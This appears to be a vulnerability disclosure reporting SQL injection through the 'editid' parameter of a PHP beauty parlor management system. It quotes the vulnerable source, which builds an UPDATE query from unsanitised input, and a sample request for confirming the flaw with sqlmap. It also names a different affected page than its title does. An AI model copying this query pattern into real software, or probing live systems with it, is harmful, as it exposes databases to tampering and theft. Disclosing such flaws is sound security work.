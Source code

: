 Online Beauty Parlor Management System - SQL Injection on (/admin/edit-services.php editid parameter) 

Vendor Homepage:

```
https://www.campcodes.com/projects/online-beauty-parlor-management-system/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/admin/index.php
```

On this page, `editid` parameter is vulnerable to SQL Injection Attack

```
<?php
session_start();
error_reporting(0);
include('includes/dbconnection.php');
if (strlen($_SESSION['bpmsaid']==0)) {
  header('location:logout.php');
  } else{

if(isset($_POST['submit']))
  {
    $sername=$_POST['sername'];
    $cost=$_POST['cost'];
   
 $eid=$_GET['editid'];
     
    $query=mysqli_query($con, "update  tblservices set ServiceName='$sername',Cost='$cost' where ID='$eid' ");
    if ($query) {
    $msg="Service has been Updated.";
  }
  else
    {
      $msg="Something Went Wrong. Please try again";
    }

  
}
  ?>
```

Proof of vulnerability(Verify using the sqlmap tool after logining):

Request:

```
GET /bpms/admin/edit-services.php?editid=1asd HTTP/1.1
Host: localhost
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bpms/admin/manage-services.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=35oep1of4pinmqsin6t7o6nae7
Connection: keep-alive
```

<img width="960" height="626" alt="image" src="https://github.com/user-attachments/assets/f36c9b90-6cd1-448a-8749-f1349bb150f1" />




